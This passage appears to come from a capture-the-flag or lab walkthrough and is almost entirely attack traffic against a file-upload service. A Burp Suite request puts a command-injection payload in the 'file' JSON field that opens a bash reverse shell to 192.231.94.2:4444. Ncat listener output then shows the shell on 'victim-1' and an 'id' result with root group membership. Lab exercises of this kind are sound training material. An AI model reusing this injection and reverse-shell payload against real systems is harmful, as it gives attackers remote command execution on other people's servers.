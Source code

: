```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 39
Access-Control-Allow-Origin: http://beta.file-backup.com:5000
Vary: Origin
Server: Werkzeug/1.0.1 Python/2.7.17
Date: Wed, 27 Nov 2024 15:52:03 GMT

{"success": "File saved successfully!"}
```

```
Ncat: Connection from 192.231.94.3.
Ncat: Connection from 192.231.94.3:40948.

id
uid=1000 gid=1000 groups=1000,0(root) 🚩
```

🔄 Alternative 🔄

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /upload HTTP/1.1
Host: 192.231.94.3:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://beta.file-backup.com:5000/
Content-Type: application/json
Content-Length: 35
Origin: http://beta.file-backup.com:5000
Connection: close

{"file":"test.txt; bash -c 'bash -i >& /dev/tcp/192.231.94.2/4444 0>&1'","data":"test\n"} 📌
```
`HTTP Response`:
```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 39
Access-Control-Allow-Origin: http://beta.file-backup.com:5000
Vary: Origin
Server: Werkzeug/1.0.1 Python/2.7.17
Date: Wed, 27 Nov 2024 15:52:03 GMT

{"success": "File saved successfully!"}
```

```
Ncat: Connection from 192.231.94.3.
Ncat: Connection from 192.231.94.3:42104.
bash: cannot set terminal process group (15): Inappropriate ioctl for device
bash: no job control in this shell
groups: cannot find name for group ID 1000
I have no name!@victim-1:/$

id
uid=1000 gid=1000 groups=1000,0(root) 🚩
```
